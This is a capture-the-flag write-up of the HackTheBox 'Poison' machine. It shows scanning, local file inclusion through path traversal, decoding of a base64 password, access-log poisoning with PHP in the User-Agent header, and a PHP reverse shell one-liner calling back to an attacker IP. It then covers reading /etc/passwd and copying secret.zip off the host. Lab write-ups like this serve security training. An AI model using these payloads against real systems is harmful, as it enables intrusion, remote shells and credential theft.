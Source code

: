 # Poison | HackTheBox

### 1. Scan
```bash
┌─[htb-jib1337@htb-xyupwgemyw]─[~]
└──╼ $sudo nmap -A -p- -T4 10.129.26.234
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-29 08:13 UTC
Nmap scan report for 10.129.26.234
Host is up (0.18s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=5/29%OT=22%CT=1%CU=35101%PV=Y%DS=2%DC=T%G=Y%TM=60B1FA2
OS:E%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=10C%TI=Z%CI=Z%TS=22)SEQ(SP=1
OS:04%GCD=1%ISR=109%TI=Z%CI=Z%II=RI%TS=22)OPS(O1=M54DNW6ST11%O2=M54DNW6ST11
OS:%O3=M280NW6NNT11%O4=M54DNW6ST11%O5=M218NW6ST11%O6=M109ST11)WIN(W1=FFFF%W
OS:2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFFF)ECN(R=Y%DF=Y%T=40%W=FFFF%O=M54DNW
OS:6SLL%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T
OS:=40%W=FFFF%S=O%A=S+%F=AS%O=M109NW6ST11%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%
OS:A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%
OS:DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%
OS:O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=38%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=
OS:G)IE(R=Y%DFI=S%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

TRACEROUTE (using port 587/tcp)
HOP RTT       ADDRESS
1   179.82 ms 10.10.14.1
2   179.90 ms 10.129.26.234

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 650.68 seconds
```
The machine is running SSH (FreeBSD version) and a web server on port 80.

### 2. Enumerate web server
The web server is hosting a "temporary website to test local php scripts". It consists of an input box in which a user can enter a script name. Somce provided script names do the following:  
1. ini.pnp - lists a lot of configuration info, none of it looks particularly interesting.  
2. info.php - displays system infomation.  
3. listfiles.php - displays an array of current files in a directory.  
4. phpinfo.php - displays the phpinfo page.
  
Additionally, LFI is present which allows access to any file readable by the current user (www-data). The phpinfo page provides some valuable information on where certain files are. From the info it can be seen that the document root and include path is: /usr/local/www/apache24/data.
  
When using listfiles.php, it can be seen there is a file called pwdbackup.txt in the current directory, that can be read by browsing to: http://10.129.26.234/browse.php?file=pwdbackup.txt.
```
This password is secure, it's encoded atleast 13 times.. what could go wrong really.. Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo= 
```
Decode this:
```bash
┌─[htb-jib1337@htb-xyupwgemyw]─[~/writeups/HackTheBox/HTB_Poison]
└──╼ $echo -n "Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0 NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO Ukd4RVdub3dPVU5uUFQwSwo=" | sed 's/\s//g' | base64 -d -w 0 | base64 -d -w 0 | base64 -d -w 0 | base64 -d -w 0 | base64 -d -w 0 | base64 -d -w 0 | base64 -d -w 0 | base64 -d -w 0 | base64 -d -w 0 | base64 -d -w 0 | base64 -d -w 0 | base64 -d -w 0 | base64 -d -w 0 
Charix!2#4%6&8(0
```
This gives what looks to be a password.
Using the LFI more, locate the HTTP access logs. Since this machine is BSD some google is needed to find where the log is. Using the LFI it is located at: http://10.129.26.234/browse.php?file=../../../../../../../../var/log/httpd-access.log.
With access to this file, PHP code can be embedded by sending a request which will result in code execution.

### 3. Get a shell
PHP code can be embedded in the user agent. Starting with code to return the result of a "whoami" command.
```
GET / HTTP/1.1
Host: 10.129.152.180
User-Agent: <?php echo shell_exec('whoami'); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://10.129.152.180/
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
This returns "www". With that confirmed, spawn a reverse shell with: `User-Agent: <?php $sock=fsockopen('10.10.14.3',9999);$proc=proc_open('/bin/sh -i', array(0=>$sock, 1=>$sock, 2=>$sock),$pipes); ?>`.  
Get a shell in the listener.
```bash
┌─[htb-jib1337@htb-xyupwgemyw]─[~/Desktop]
└──╼ $nc -lvnp 9999
Listening on 0.0.0.0 9999
Connection received on 10.129.29.223 16715
sh: can't access tty; job control turned off
$ whoami
www
```

### 4. Enumerate from user
Check /etc/passwd.
```bash
$ cat /etc/passwd
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh
```
The charix user is available, and hopefully the password that was retrived earlier will let us access them.

### 5. Switch users
```
$ su - charix
Password:Charix!2#4%6&8(0

Warning: no access to tty (Bad file descriptor).
Thus no job control in this shell.
To read a compressed file without having to first uncompress it, use
"zcat" or "zless" to view it.
		-- Dru <genesis@istar.ca>

whoami
charix
```

### 6. Enumerate from user
Before going any further, can kill this session and just login over SSH.
```bash
┌─[htb-jib1337@htb-xyupwgemyw]─[~/Desktop]
└──╼ $ssh charix@10.129.29.223
Password for charix@Poison:
Last login: Sat May 29 12:44:06 2021 from 10.10.14.3
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
You can use the 'fetch' command to retrieve files over ftp, http or https.

	 fetch http://www.FreeBSD.org/index.html

will download the front page of the FreeBSD web site.
charix@Poison:~ % ls
secret.zip	user.txt
```
secret.zip looks interesting. Attempt to extract it, and despite being told the file needs a password, can't work out how to enter one so just scp it to the local machine to extract it there.
```bash
┌─[htb-jib1337@htb-xyupwgemyw]─[~/Desktop]
└──╼ $scp charix@10.129.29.223:secret.zip .
Password for charix@Poison:
secret.zip                                                                                                                                         100%  166     0.9KB/s   00:00
┌─[htb-jib1337@htb-xyupwgemyw]─[~/Desktop]
└──╼ $unzip secret.zip 
Archive:  secret.zip
[secret.zip] secret password: 
 extracting: secret                  
┌─[htb-jib1337@htb-xyupwgemyw]─[~/Desktop]
└──╼ $cat secret
��[|Ֆz!
```
The secret is retrieved.

